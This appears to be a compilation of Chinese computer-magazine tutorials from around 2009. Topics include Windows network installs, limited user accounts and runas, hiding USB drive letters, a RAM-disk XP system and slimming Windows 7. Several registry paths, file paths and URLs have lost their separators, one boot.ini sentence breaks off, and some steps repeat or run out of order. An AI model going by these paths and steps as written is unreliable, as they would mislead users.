手动打开Windows PE网络支持功能，路由器会自动为PE系统分配正确IP地址。然后在服务器端打开Http File Server，把需要安装的ISO文件拖入。最后在笔记本电脑上打开浏览器，输入HFS上设置好的IP地址（图6），即可下载ISO文件。



#### 4.加载镜像

下载完ISO后，可以使用DAEMON Tools加载ISO镜像或者直接用WinRAR打开镜像，双击Setup.exe进行系统安装。安装过程与正常的全新系统安装完全无异。系统文件加载完毕后，系统会要求重启，这里要注意，由于是精简版系统，我们需要手动重启。

#### 5.安装系统

因为安装文件已经在PE系统中完成了本地加载，因此重启后一定要马上设置硬盘启动，否则会再次进入网络引导程序。设置硬盘启动后，熟悉的Windows加载画面已经可以看到了，接下来的安装过程相信大多数人都轻车熟路，笔者在这里就不再讲述。

> 网络克隆有风险，只适合有一定动手能力的玩家操作。进行网络克隆前强烈建议先进行数据备份工作。由此带来的一切损失将由读者自行承担。

## 合理设置账户权限 从此不再为系统漏洞担惊受怕

常听起别人说漏洞不及时补，电脑一联网就中毒；也常听起别人抱怨Windows安全性差，Linux有多好，其实这些问题并没有这么严重，如果我们能善用系统自身的权限管理，那么受到的威胁会减少很多。著名企业管理软件商BeyondTrust的首席执行官John Moyer称，当用户不使用管理员权限时，微软92%的危急漏洞的危害会有不同程度的减轻，‘这提醒了广大企业用户，显然关闭管理员权限可以减少受攻击的几率。’那么我们就来看看如何设置权限躲避这些系统漏洞的危害。

### Part1 权力越大越危险，新手别想拿管理员权限

如果使用Windows，如果不做设置，初始创建的用户都是拥有最高管理权限的，这个特性一直从Windows9x延续到了现在，直到Vista新引入的UAC才对这个现象作出了一些限制。作为一项有不少年头的‘优良传统’，我们也被这一特性惯坏了；由于天生的权力欲望，大家都希望自己拥有对电脑的绝对控制权，甚至大家还想直接使用System级别的权限。其实权力越大，破坏也就越大。

虽然Vista的UAC让很多喜欢无拘无束的人不高兴，不过一个不争的事实却是Vista开启了UAC之后，只要用户不胡乱确认，那么中毒的概率很低，UAC深得裸奔一族的喜爱。虽然Vista的UAC设计并非很完善，提示还是有点繁琐，不过它还是开启了一扇通往安全的大门（图1）。



> > 小提示：UAC是什么
>
> UAC全称User Account Control，翻译过来是用户账户控制；它是微软为了提高Windows的安全而在Vista中引入的一项技术，如果用户需要执行可能会影响系统正常运行的操作的时候，Vista将要求用户进行确认。由于大家已经习惯了那种无拘无束的感觉，Vista引入的UAC一开始恶评如潮，但是这并没有阻挡UAC前进的步伐。即使到下一代的Windows7，也依然拥有UAC，只是这个UAC会比Vista有些进步，至少不会那么烦人了。

也别听一些所谓‘高手都是裸奔的、高手不用UAC’这种说法，据我所知，不少微软的MVP一样使用安全防护软件，一样开启UAC，这并不能说明什么问题。而且本文也绝对没有提倡大家不安额外的安全软件，只是说如果对权力做一些限制，可以在更少的防护的情况下，提供更高的安全性，杀毒软件、防火墙还是少不了的。

### Part2 拿得起放得下，创建一个普通权限的账户

由于大家基本都使用XP Pro版本，本文以XP Pro版为例进行介绍。如果系统只有一个用户Administrator，那么请创建一个新的用户。如果已经拥有了多个用户，可以把当前非Administator用户降级为普通用户。

> > 小提示：Power Users和Users组的区别
>
> Power Users 组的成员拥有的权限比 Users 组的成员多，但比 Administrators 组的成员少。这个组可以执行除了管理员保留任务外的系统任务。而USER组相对安全多了，系统为USER 组提供了一个安全的程序环境，用户不能修改系统注册表、不能修改操作系统文件，但是可以运行经过认证的程序，对自己的数据文件和注册表有关自己的部分拥有完全控制权。所以从安全起见，应该使用USER用户组。



#### ## 创建一个USER用户

- 1. Step1 在桌面“我的电脑”图标上面点击右键→选择“管理”→本地用户和组→用户。
- 2. Step2 在这里点击右键选择“新用户”，输入用户名和密码，去掉“用户下次登录时必须更改密码”前面的钩。
- 3. Step3 在新建的用户中的“333”那里点击右键→选择“属性”→查看“隶属于”选项卡。看看是否有且只有一个用户组“Users”，如果不是请执行添加删除操作。

#### ## 修改用户组

- 1. Step1 点击“隶属于”里面的用户组，删除掉更高权限的用户组。
- 2. Step2 点击“添加”→高级→立即查找→点击需要添加的用户组→点击“确定”。

在以后使用过程中，有时需要管理员权限的时候，可以进入具有管理员权限的账户，临时把用户提升为管理员。



> > 小提示
>
> 创建完用户之后，别禁用Administrator和所有系统管理员权限的账户，否则需要系统管理员操作的时候将会非常被动。如果真的没有系统管理员账号可以使用，那么还有一个可以补救的方法，使用PE工具盘启动，运行其中的NT系统用户密码恢复工具，可以创建一个管理员用户，也可以提升现有用户为管理员。而且如果没有PE启动盘也不用担心，Administrator即使被禁用也能在安全模式下登录，所以一定要给Administrator设置一个强壮的密码。

### Part3 掌握这些技巧，微软账户也用得更自在

降低了权限，有的操作就做不了了。虽然这些限制并不会影响一般的使用，诸如看网页之类的肯定没有问题的。但是如果碰到想临时修改一下注册表、有些程序无法运行咋办呢？非要切换到具有管理员权限的账号么？不一定的，请往下看。

> 小提示
> 默认情况下，按下Win+L快捷键可以快速切换用户，切换用户并不影响程序的正常运行。

#### 程序无法运行咋办

如果开始菜单中没有对应的程序，那么可以用管理员权限的用户到C:\Documents and Settings\用户名\「开始」菜单中提取快捷方式，复制到对应用户的开始菜单文件夹中。
如果确实是程序无法运行，那么可以试试看把当前用户提升为管理员，然后安装软件，安装完毕软件之后再把用户降为普通权限。除了安装权限的问题，还得注意NTFS权限的问题。如果使用NTFS分区，那么请确保Users的用户拥有足够的权力。修改文件或者文件夹的权限可以这样操作：

- Step1 以管理员权限登录，进入“文件夹选项”→查看→去掉“使用简单文件共享（推荐）”前面的钩。
- Step2 找到需要修改权限的文件，点击右键选择“属性→安全”，在里面可以直接修改权限。

如果有时候看不到“安全”，请重启试试看。

#### 使用Run As命令临时以管理员身份运行

相对于Vista的UAC、Linux的sudo命令，XP一样也有RunAs命令，可以以管理员命令运行某个程序。举个例子如下：
QQ2009无法在User权限下面安装，如果我们不想切换到管理员账户，则可以用Runas命令安装QQ2009 B2。

Step1 在开始菜单的“运行”中输入CMD并回车，之后打开命令提示符窗口（图4）。

Step2 假设QQ安装包保存在F盘，名称为：QQ2009Beta2.exe；那么输入命令：

```
runas /env /user:A-63F005C7A5184Administrator f:QQ2009Beta2.exe
```

参数的含义可以通过直接运行runas命令查看。本例子中的/env参数代表使用当前的环境，而且/user：表示以哪个用户的名义运行，参数后面跟着计算机名/用户这样的形式，例如：A-63F005C7A5184Administrator。提醒一下，如果管理员用户使用空密码，那么将无法执行Runas命令。此外，如果程序路径很长或者夹有空格，那么需要用"英文半角双引号把完整路径标记一下，而且路径对大小写敏感，例如本例子中如果写成qq2009b2.exe，那么将会无法运行。



#### 除了Run As还可以使用图形化界面操作

命令行方式有命令行方式方便的地方，例如做成批处理就很方便。但是如果你天生对命令行比较反感，觉得有图形界面不用就是“犯罪”，那也有图形界面操作的方法。

- Step1 依然用上面QQ2009B2的安装包为例子进行介绍。在QQ2009B2.exe上面点下右键（有的系统需要按下Shift+右键），之后选择“运行方式”。
- Step2 选择一个需要使用的账户，点击“运行”即可。

两种方法的差别在于命令行的方式可以指定用户配置文件，而图形界面就做不到了。



## 用魔盒 傻瓜也能装机

文/大风车

新的操作系统安装之后，安装应用软件、必备驱动是一件必不可少的事，同时也很麻烦。为此，像快车、迅雷等都提供了“装机必备软件”功能。与这些软件比，魔盒不仅提供常用软件、驱动、系统补丁游戏的下载推荐列表，还可动态跟踪它们的最新版本而发出通知，同时提供这些资源的百科、最新新闻资讯、教程攻略和用户评价系统。

> 小提示
> 魔盒会自动根据操作系统版本和硬件配置提供这些资源合适的版本下载，支持一键装机、批量装机。对于软件本身没有提供的资源，还可以轻松地添加，做自己的个性资源库。

到http://magicbox.ruanmei.comdownMagicBoxSetup.exe下载魔盒，软件运行后，会弹出“装机向导”界面（见图）每个向导界面中提供了3个程序，并对推荐的程序做了介绍，如果不需要则选择“跳过”，进入下一页的推荐程序，如果不想使用这种“一键装机向导”，则可以选择“取消”按钮，根据自己的需要进行软件的安装。

对于自己需要的软件也不必在浏览器中查找，只需在软件主界面的“软件搜索”项中输入软件的名称，搜索下载即可。除此之外，对于一些常用的必备软件，还可以选择主界面的“主页”选项卡，单击“装机必备”按钮后，根据分类找到相应的软件，在右侧窗口中单击“下载并安装”链接即可。



### 给虚拟机增加“硬盘”空间

为了应对磁盘空间紧张等问题，计算机需要不断添加硬盘。同样道理，虚拟机Hyper-V虚拟机也是这样，随着应用软件和用户数据不断积累，原本宽裕的虚拟硬盘空间也会捉襟见肘，此时添加“硬盘分区”是解决问题的唯一途径。下面介绍有关的具体操作技巧。

#### 第1分钟：打开待添加磁盘的虚拟机

在Windows 2008中打开Hyper-V管理器，选中“虚拟机”下待添加磁盘的虚拟机。如果在“快照”下有当前虚拟机的快照，请先“删除快照”。

#### 第2分钟：在虚拟机磁盘管理中选择扩展

选中“虚拟机”下待添加磁盘的虚拟机，单击右窗格下的“编辑磁盘”打开“编辑虚拟磁盘向导”。查找虚拟磁盘，请单击“位置”右侧的“浏览”按钮，在虚拟机安装目录“Virtual Hard Disks”文件夹中找到扩展名为“*.vhd”的文件。选中后单击“打开”返回对话框，单击“下一步”选择将要执行的操作。“扩展”用来增加动态扩展虚拟硬盘或固定虚拟硬盘的容量。

#### 第3分钟：调整虚拟机的磁盘空间大小

选中“编辑虚拟磁盘向导”中的“扩展”，单击“下一步”打开如图1所示对话框，在“新大小”后的框内输入或选择扩展后的磁盘容量，单击“下一步”按提示操作就可以了。



#### 第4分钟：在磁盘管理中查看新增磁盘空间

以Windows 2003为例（其他版本类似），单击Windows“开始→管理工具→计算机管理”，打开窗口选中左窗格中的“磁盘管理”，就可以在图2中看到颜色为黑色的一块“未指派”空间。



#### 第5分钟：格式化新磁盘

右击图2中的“未指派”空间，选择快捷菜单中的“新建”打开图3所示对话框。选中“主磁盘分区”或“扩展磁盘分区”单击“下一步”，若选中的是前者，可以在“下一步”之后选择分区格式以及是否需要格式化。若选中的是后者，可以在建立分区之后在Windows中进行格式化。



> **小提示**
如果虚拟机C分区太小，需要与新添加的分区合并时，使用Acronis Disk Director Suite 10.0或Partition Manager等工具，具体操作就不在这里赘述了。

## 老Word，默认也用雅黑

雅黑字体的显示效果、打印效果感觉都很不错，不过即使系统默认的字体已经是雅黑字体，在安装WPS启动后，它使用的默认字体是宋体，每次都要修改为雅黑字体，虽然不是很复杂的操作，总觉得颇为不便。如何才能将默认字体由宋体改成雅黑？

#### 第一步：

先启动WPS 2007，再点击“格式”菜单，选“字体”菜单项，在“字体”窗口中点击“中文字体”的下拉菜单，点击其中的“微软雅黑”，按“确定”后退出。再点击“文件”菜单，选“另存为……”菜单项，在打开的“另存为”窗口中将“保存类型”改为“WPS文字模板文件（*.WPT）”，文件名称可自定义（比如“我的模板”），再按“保存”按钮后退出。

#### 第二步：

在资源管理器中，依次点击打开C:\Documents and Settings\用户名\Application Data\Kingsoft\office6\templates文件夹时，里面应该有两个模板文件，其中“Normal.wpt”是WPS默认的模板，而名为“我的模板.wpt”就是刚才我们自定义的模板了，我们要做的就是先将“Normal.wpt”改为其他名称（如Normal-old.wpt），再把“我的模板.wpt”改为“Normal.wpt”，退出后就大功告成了。

既然在WPS里能改，在Word里面能不能修改呢？
启动Word 2003，点击“格式”菜单，选“字体”菜单项，在“字体”窗口中点击“中文字体”的下拉菜单，选其中的“微软雅黑”，再点击左下角的“默认”按钮，此时会弹出一个“是否将默认字体设为中文雅黑”的确认框（见图），点击“确定”后重新启动Word，将雅黑字体成功设置成为了Word的默认字体。



## 扩展视野 本本使用双显示器

相对于台式机动辄28寸的显示器来说，本本才14寸左右的屏幕未免太小了，当把它当作台式机使用的时候屏幕空间狭小很不爽，有没有办法能够扩展本本的屏幕空间呢？使用双显示器就可以办到。下面我们就来分析并实现双显示器的安装和优化。

### 双显示器的硬件需求

组双显示器硬件门槛并不高，只需要显卡支持双头输出或者拥有两块显卡，并且再拥有一台显示器即可。和台式机不一样，本本已附带了一个VGA接口（少量有DVI、HDMI），外接显示器不需要再加显卡了。组双显示器只需要购买一台具有同样接口的显示器即可，显示器点距和分辨率最好接近本本的显示器，这样看起来舒服些。

### 设置显卡使用双显示器

本本安装驱动之后，本身就可以实现双头输出了，不信你接上外接显示器按下屏幕切换键看看（图1）。按下Fn+切换键会在：仅笔记本 屏幕、仅外接显示器、同时使用外接显示器和本本显示器三种模式之间切换。



为了使用方便，我们还需要进行一些设置。由于我装的是Vista X64，所以以Vista为例子进行介绍，如果使用的是XP，方法也是类似的。

第一步：设置扩展桌面。桌面空白处点击右键→选择“个性化”→显示设置。在显示设置中选择新显示器，并设置合适的分辨率、颜色，勾选“将桌面扩展到该显示器上”（图2）。如果分辨率设置无效，可暂不用管。



第二步：设置屏幕参数和相对位置。桌面空白处点击右键→“ATI催化剂控制中心”。进入控制中心“显示器管理器”。

点击一个显示器，根据下方的标示判断是否是新加的外接显示器。选中新加的显示器，如果显示器在本本显示器的左边则把新显示器拖到本本自带显示器的左边（图3），否则显示的桌面会错位。



在下方的“桌面区域”中，设置合适的分辨率。到这里双显示器显示应该正常了。

### 使用UltraMon优化双显示器

执行到上面一步为止，双显示器是可以正常使用的，只是软件默认都在主窗口打开，需要手动拖动到另外的显示器上才行；而且扩展桌面没有一个像样的任务栏，调度程序很不方便。所以我使用UltraMon来帮助我用好双显示器，UltraMon可以在httpwww.cbifamily.comdownload200903.html下载得到。

第一步：安装运行，这时候扩展桌面已经有了一个任务栏。当然这个任务栏和主窗口的任务栏不一样，没有开始按钮也没有托盘区更没有快速启动栏，而且只显示副显示器上面的程序。与此同时，每个窗口上面都添加了两个按钮，分别起到拉伸窗口和移动窗口到另一个显示器的作用；在每个快捷方式的“属性”中添加了两个和UltraMon相关的选项卡。UltraMon会记住程序上次运行所在的显示器，这样用起来很方便。

第二步：如果没有什么特殊的要求，其实可以不用设置了。如果有其他要求，例如：某些不兼容的程序可以在Options的Compatibility中进行设置、设置任务栏样式可以在Smart Taskbar中进行设置。

64位Vista下UltraMon在扩展桌面的任务栏有时会崩溃，这时请终止掉UltraMon的进程，重新运行即可。也可以在UltraMon设置菜单的“Smart Taskbar”中先去掉“Use Smart Taskbar”前面的钩，然后点击“确定”；再次进入这个选项，勾上它，点击“确定”，扩展桌面的小任务栏又回来了。

建议在HotKeys中设置几个快捷键，特定的时候用得着：center mouse on primary monitor（移动鼠标到主显示器窗口），丢失鼠标光标时很有用；Disable or enable secondary monitors（禁用或者启用副显示器）。

## 内存装系统，运行实在快！

现在上网本非常流行，很大的原因之一是它们一般使用固态硬盘，与普通硬盘相比，运行速度奇快无比。有没有想过将一般电脑的系统安装在内存中，实现您上网本那样的读取系统速度呢？现在一般的电脑内存都很大，通常2GB甚至4GB，如何有效地利用这个内存来弥补硬盘的缺陷呢？

> 小知识：现在电脑速度提升的最大瓶颈在哪儿知道吗？硬盘！硬盘上的数据要读入到内存，CPU才能对该数据进行调用、运算，接着再写入到硬盘上，这一个操作过程，大家也一定看出来了，从硬盘到内存再从内存到硬盘这是一个可以说是多余的步骤，而且硬盘到内存的速度也不快。那么我们直接把数据放入内存，在内存里运算操作，这样速度肯定会大幅提升，而且对于有读写限制的硬盘可以起到延长其硬盘寿命的功效。

### 制作镜像文件

这一步中将生成一个镜像。当前的操作系统将保存在这个镜像中，以后将通过这个镜像启动内存操作系统。在XP下面由于正在使用某些文件无法完成这个操作，所以这个部分需要在PE下面进行。接下来一起看看如何操作吧。

下载PE工具盘的ISO文件之后，可以通过虚拟光驱安装到移动硬盘、U盘上，也可以直接刻录成光盘使用。用PE启动盘启动系统。运行下载软件包中的Virtual Drive Manager，这个软件可以放在硬盘上，也可以放在U盘中，但是请不要放在系统盘上面。

### 安装RAMDISK驱动

安装一个精简版的LTM版XP，操作过程这里就不详细说了，和正常系统的安装是一模一样的。安装一些驱动和必备的软件，并调整虚拟内存的大小或者转移页面文件，请确保系统盘的容量在700MB以下。因为LTM版精简了非常多的东西，所以最好准备一张完整版的安装盘，安装部分软件时可能需要从光盘提取文件（见图1）。



#### 第一步：

选择文件→创建→浏览→选择一个非系统盘如D盘，输入一个镜像的名称，例如XP→点击“保存”。在大小中输入一个小于500MB的数值，本例子中输入480MB。如果这个数值过大，可能会无法启动系统，装载的时间可能也会很长。

> 小提示：由于内存容量和虚拟盘的限制，建议使用精简版的操作系统诸如LTM系列的超级精简XP、2003。当然这类精简版的系统有时候可能会出现安装驱动程序安装不上的情况，这时候可以试试看驱动精灵。有的精简版的操作系统可能有兼容方面的问题，那么可以试试看其他版本或者使用软件自己精简一个系统。本文操作所使用的是LTM精简XP，PE可以使用老毛桃、深山红叶系列PE，新电脑可以使用网虫系列维护PE。要想内存版的XP跑得爽，建议内存至少2GB。

然后安装RAMDisk。由于需要把系统放到内存中运行，所以需要把内存虚拟为一个磁盘。而且由于使用了RAMdisk，还可以使用它的镜像功能，弥补断电之后内存数据会自动清除的缺陷。每次从镜像启动要方便很多。

#### 第一步：

依次打开开始→控制面板→添加硬件→添加新的硬件设备→安装我手动从列表中选择的硬件（高级）→显示所有设备，点击“下一步”→从磁盘安装→定位到解压出来的文件夹中的Virtual Drive ManagerRAMDISK_安装控制器 or 2003（见图2），依次安装Windows RAM Disk Controller、Windows RAM Disk Device (volume)。



点击装载→浏览，找到刚才创建的img镜像文件→点击“打开”，并选择一个加载的盘符，例如G盘→格式化G盘（注意了别选错盘了），使用NTFS格式格式化，并使用“启用压缩”，随意输入一个卷标（见图3）。



#### 第二步：

点开始→运行，在“运行”中输入“Regedit”并回车，打开注册表编辑器。定位到HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Ramdisk，把Start的值由默认的3改为0。

#### 第二步：

修改C盘也就是原来系统盘根目录下面的boot.ini文件，最后一行加入ramdisk(0)WINDOWS="Windows XP RAM" /minint/fastdetect /rdpath=multi(0)disk(0)rdisk(0)partition(2)XP.img并保存。这一句话是适合XP镜像文件在D盘、只有一块硬盘的情况；如果镜像文件不是如本文所设

> 小提示：如果需要把临时文件等放到内存虚拟盘中，还可以使用压缩包中的ramdiskcn文件夹中的Ramdisk创建一个虚拟盘，并把临时变量修改到这个磁盘中。实际上这个步骤做不做都可以，看你的需求了。安装这个虚拟盘，可以直接运行Ramdisk.exe安装，但是更建议用前面提到的从控制面板的添加硬件进行安装。

重启电脑。

### 实现启动和热备份

成功就在眼前，这一步中我们将实现第一次启动，也将完成善后工作。

启动电脑，在引导菜单中选择Windows XP RAM启动内存系统。如果不想每次都这么麻烦，可以参照前面提到的小提示修改Boot.ini默认启动内存版的XP，或者也可以运行msconfig系统配置实用程序，在Boot.ini项目中设置默认启动的系统（见图5）。



系统会再一次搜索RAM Disk Controller（虚拟磁盘控制器）的驱动程序，像前面一样安装即可。安装完毕之后会提示是否重启，请选择“否”。到注册表HKEY_LOCAL_MACHINESYSTEMCurrentControlSetServicesRamdisk中检查Start值是否还是0，如果不是请改到0。

像前面一样使用Virtual Drive Manager加载镜像，只不过这次是在内存版的XP中加载。然后执行UpRamOS.exe，选择好加载的虚拟盘并点击“上传”进行备份。备份软件会提示是否上传注册表，请选择“是”。直到显示“当前状态：空闲”才说明备份已经完成。备份完成后，和前面一样卸载镜像，之后就可以重启了（见图6）。



> 如果不使用热备份软件其实也是可以的，只是不能保存一些设置而已。另外友情提醒一下，部分系统中热备份软件可能会有兼容问题，热备份之后会蓝屏，期待软件更新会更好一些。

至此，内存版的XP系统就弄完了；在我的电脑上内存版的系统比硬盘版系统流畅多了，简直一个天一个地。希望大家好好享受内存盘带来的快感吧！

### 小编有话说:

有读者要问到：内存里不能保存数据，一旦断电数据就没了，你所说的内存里运算是否就成了天方夜谭？不，以往笔记本、上网本不普及时这种方式的确有点天方夜谭，但是现在笔记本、上网本普及了，这样的设想也就不是天方夜谭了，在台式PC上这样做不好，是因为有突然断电的情况出现，而笔记本的电池的存在就改变了这一点，我们可在要断电时，将系统进行热备份，保护数据。

## Word 2007双栏排版技巧

文/谢老师

### 技巧一：左右均衡显示文字

在Word中，双栏排版是应用较多的操作，它可以使文本更加美观，符合阅读习惯，并且节省版面。但是，往往在设置为双栏之后发现，很多文字会集中在一栏内显示，左右不太对称，看起来很不协调。请用如下步骤来实现双栏均衡显示的效果。

首先，将光标置于文本的最后，本例中为第二栏。然后，切换到“页面布局”标签，在“页面设置”工具栏内选择“分隔符”，在下拉菜单中的“分节符”选项区域中，点击“连续”按钮即可（见图）。

### 技巧二：标题置于分栏顶部

有时候用双栏排版，发现某一栏最后一行显示光秃秃的标题，标题下内容显示在下一栏中，显得很不美观。按下步骤即可进行修复：

首先，将光标定位于此标题前面。然后，切换到“页面布局”标签，在“页面设置”工具栏内选择“分隔符”，在下拉菜单中选择点击“分栏符”按钮即可将此标题移入下一栏顶部了（见图）



## 学会障眼法 让别人的U盘在你电脑上无法识别

大家都知道，办公室里的公用电脑由于使用者众多，特别难管理。尤其是病毒木马问题，更是让人深恶痛绝。经过笔者观察发现，很多时候是因为有些同事用U盘拷贝文件导致系统“染毒”。把USB接口完全禁止，又有点因噎废食，有些时候还真得用U盘备份文件。有没有其他更好的办法解决这问题呢？

### 第1分钟 打开注册表编辑器

点击“开始”菜单中的“运行”命令，输入“REGEDIT”后回车。打开注册表后，依次选择：HKEY_CURRENT_USER→Software→Microsoft→Windows→CurrentVersion→Polices→Explorer。

### 第2、3分钟 新建NoDrives子键并设置键值

点击选中Explorer后，在右边空白处单击右键，选择“新建→DWORD值”，这时会出现名为“新值#1”的子键。在“新值#1”上右击鼠标，选择“重命名”，改名为“NoDrives”。右击它，选择“修改二进制数据”。这里的默认值为：00000000。

```
HKEY_CURRENT_USER→Software→Microsoft→Windows→CurrentVersion→Polices→Explorer
```

```
00000000
```



> **小提示**
这里将第一组“00”改为01可隐藏A盘，改为02可隐藏B盘，改为04可隐藏C盘，改为08可隐藏D盘，改为10隐藏E盘，改为20可隐藏F盘，改为40可隐藏G盘，以此类推。

我们的目的是把U盘的盘符隐藏起来，这里得提前看一下U盘所占用的盘符。比如，本机有C、D、E三个硬盘分区，F盘为光驱。插上U盘后，系统自然识别为G盘。我们只需把G盘的盘符隐藏即可。我们就可以将上述键值改为“40000000”即可。

```
40000000
```

### 第4、5分钟 关闭注册表编辑器并注销或重启

修改完毕后，关闭注册表编辑器，回到“我的电脑”中，直接刷新即可见效。如果不生效，将系统注销一下或是直接重启，就会看到最终效果。

通过上述方法处理后，无论是在“我的电脑”中，还是在Windows资源管理器中，甚至在地址栏下拉菜单中和很多软件的“打开”命令中，都不会出现G盘的身影。这样，我们把U盘插上后，系统正常识别，但就是不显示U盘的盘符。



如果自己想使用U盘，怎么办呢？每次都需要修改注册表吗？答案当然是不用了。我们在地址栏中直接输入“G：”，回车后即可直接进入。

## 从CAJ、PDF文件中提取文本

由于CAJ、PDF等文献格式和Word文档的格式不兼容，网上提供了许多将其转换成Word文档的软件，但是它们不是效率低，就是只能提取其中部分文本。本文所述利用微软提供的OCR识别技术从CAJ、PDF等文件中提取全部文本的方法，简便快捷，效率很高。

从不同格式的文件中提取文本前需要做好以下准备工作，安装CAJViewer7.0阅读器软件和PDF阅读器软件，并完全安装Office 2003中的Microsoft Office Document Imaging的组件（如果你的Office 2003没有这个组件，可以添加安装这个组件），然后在打印机里面会增加Microsoft Office Document Image Writer打印机。Microsoft Office Document Image可以非常准确的全文件识别转化中文、英文、表格。其提取文本的步骤如下（以CAJ文件为例）：

+   **Step1：** 启动CAJViewer阅读器程序，并在该程序中打开刚才保存的CAJ格式的文件。浏览文件到最后一页后，不要关闭CAJ阅读器程序。
**Step2：** 在CAJ阅读器程序窗口中，选择“文件→打印”，并选择打印机为Microsoft Office Document Image Writer打印机，勾选打印到文件选项和确定打印页数，单击“确定”按钮。
**Step3：** 保存打印文件“*.mdi”到适当位置。等待打印完成后，Microsoft Office Document Image 自动打开刚才保存的打印文件。
**Step4：** 在Microsoft Office Document Image窗口中，选择“页面”菜单中的“选择所有页面”菜单项，然后选择“工具”菜单中的“使用OCR识别文本”提取文本。
**Step5：** 选择“工具”菜单下的“将文本发送到Word”命令，从随后弹出的“将文本发送到Word”对话框中确定保存位置，最后将把整个CAJ文件识别输出到Word文件中。

文/杨志祥

## 缩骨神功 Win7躲进上网本

上网本体积小，携带方便，最主要是价格便宜，适宜学生一族和经常出差的工作族。由于配置比较低，大部分上网本预装的是XP系统和Linux系统，安装耗资源的Vista那是自讨苦吃。作为替代的选择，可以选用Windows 7。就目前来看Windows 7可以在Atom平台上运行，而且效果还不错，运行很稳定，缺陷是体积太大，那些使用固态硬盘的小本本可吃不消。接下来看看如何改造Windows 7，让它能完美安装、运行在上网本之上。Windows 7 RC版可以到这里下载：http://bbs.cfan.com.cn/forum-295-1.html。

### 为什么要精简？

微软于今年2月公布了Windows 7的6种版本，涵盖家用进阶版、专业版、企业版、家用入门版、Starter版本，以及旗舰版。同时微软也强调所有的版本皆能在上网本上执行。而如今在上网本中使用的Starter版本如果只能执行三个应用程序，杀毒软件也许就占了必要的一个位置，再加上浏览器及即时通信软件便额满了。

### 做好准备

下载需要使用的工具Vlite（下载地址：http://www.newhua.com/soft/53714.htm），运行会询问你是否同意许可协议，选择I Agree，之后会出现一个提示框，让你安装WIM Filter（见图1）。



- 1. 第一步：把下载得到的压缩包解压，里面有X86和X64两个文件夹，分别根据自己所用的系统选择对应的文件夹，把里面的文件放到Vlite的文件夹中。执行“wimfltr.inf→点击鼠标右键→安装”、“wimmount.inf→点击鼠标右键→安装”。注意inf文件的顺序。
- 2. 第二步：选择Vlite的界面语言。点击主界面的Language选择其中的Simplified Chinese，把界面语言改成中文，看起来习惯一些。用虚拟光驱加载下载得到的Windows 7 ISO文件，或者直接使用UltraISO或者WinRAR之类的软件把ISO中的所有文件提取出来。然后在“欢迎使用Vlite”界面中点击“浏览”定位到文件夹。本文使用WinRAR解压RC版的Windows 7安装文件。

Vlite会让你选择一个系统来精简。一个ISO镜像中包含了5个版本的系统，一般可以选择Professional、HomePremium、Ultimate，本文选择Ultimate也就是旗舰版。之后等待软件识别系统信息，识别完成后，就可以点击“下一步”了。

选择所需要执行的任务。这里可以选择集成、精简组件、调整、无人值守安装、可启动ISO5项。

### 集成补丁驱动

目前来说，尚未有补丁可供集成，所以这一项就不进行介绍了。如果将来发布了正式版，再根据本文进行DIY的时候，只需勾选“启动”，然后点击“插入”补丁即可。语言包也是同样的集成方法，很简单。

这里重点讲一下驱动的集成。集成前需要留意哪些驱动Windows 7已经集成，如果集成了那么这里可以不再进行集成，毕竟大家对上网本的要求也不高。如果Windows 7原生没有集成驱动或者想换更好的驱动，则集成的时候必须注意驱动要支持Windows 7，尤其是Realtek的声卡驱动程序。

集成的方法很简单，点击“驱动选项卡→启用→插入”即可添加驱动（见图2）。需要提醒一下，这个“插入”功能只能插入inf形式的驱动，如果驱动是msi的安装包，那只能进入系统之后再进行安装了，或者到一台相同系统、硬件的系统上使用驱动精灵之类的软件把驱动备份下来，这个也是inf形式的驱动。插入完成之后，点击“下一步”。



### 精简组件

这里将是重头戏，Windows 7到底有多大就由这里决定了。本文中的选择相信和大多数人的需求一致，但是由于任何选择都可能夹杂个人因素，所以不能保证适合每一个人，建议大家根据自己的需要进行选择，本文选择仅为参考，本文考虑了上网本的实际情况。

- 1. 功能特性可以勾选Aero Glass玻璃效果、Internet Explorer、Windows更新、“扫描仪，照相机，摄像头”。应用程序中勾选ACDSEE/Xnview、KMplayer以及你所需要的程序。Vlite将根据你的选择保留一些文件。
- 2. 根据自己的需求删除组件。由于篇幅的关系不可能讲得太细，每项功能软件都有提示，可以根据提示进行判断。大致列一下：Intel Indeo、SideShow、录音机、屏幕保护、示例图片、音视频示例；Internet共享连接、IP助手、SuperFetch、WebDAV、Windows搜索、错误报告、卷影复制、路由和远程服务、脱机文件、远程注册表、辅助功能、欢迎中心、截图工具、自带的游戏、语音识别、调制解调器驱动、扫描仪和打印机驱动、电视协调器驱动、QLogic 光纤卡、Diva Server、Internet信息服务（IIS）、Windows会议室、简单的TCPIP服务、文件与打印机共享服务器端、Windows Defender、Windows 轻松传送、帮助、蜂鸣、Zip 文件夹、安全中心、家长控制、平板电脑、驱动器加密、微软为NFS提供的客户端。

### U盘装Win7

ISO文件制作完成了，那么如何安装呢？只要你有一个2G的U盘就可以用来安装Windows 7。U盘容量最好别太大，太大的U盘启动可能会有问题。可以把ISO文件写入U盘，通过U盘引导安装。

下载并安装UltraISO工具（下载地址：http://www.newhua.com/soft/614.htm）。用UltraISO打开做好的ISO文件，点击“启动”菜单中的“写入硬盘映像”。确认“硬盘驱动器”中选择的是需要写入的U盘，然后点击“写入”（见图4）。


写入完成之后，点击“便捷启动”→写入硬盘新的主引导记录→选择“USB-HDD+”即可。接下来就可以把U盘插在上网本上，开始精简版Windows 7的安装之旅了。

### 创建ISO

点击“应用”→选择默认的“重建所删”，接下来软件会自动处理刚才的操作。这一步需要些时间，视电脑配置而定。执行完毕之后即可点击“下一步”进入制作ISO的步骤。

制作ISO文件的部分也相当简单，如果不设置卷标，直接点击“制作ISO”即可（见图3）。高级点的功能还可以分割ISO文件、直接刻录等等。以本文为例，原始ISO文件有2.5GB，经过精简之后仅1.45GB。而安装后仅占用3.4GB，对于上网本来说已经不成问题了。



### 无人值守

调整选项卡中可以对系统作一些预优化，例如做电源方面的设置、服务方面的设置。这个内容说起来占的篇幅比较多，建议参考以前报纸上面有关Vista优化的文章进行设置。这里只提醒一点：请在“系统”中把“自动运行”设置为“禁用”，因为现在U盘传染病毒太厉害了。

而无人值守安装部分，可以预设输入序列号、跳过自动激活、设置计算机名等，这些选项一目了然，也不再多说了。

> 小提示：除了勾选删除的组件，还请点击下方的“保护文件”，添加windowssystem32wer.dll。

最后，根据需要调整语言支持，提醒一下，调整不当会造成乱码，如果要使用汉化包就不要动这里。

## 鱼鱼让你也有Vista侧边栏

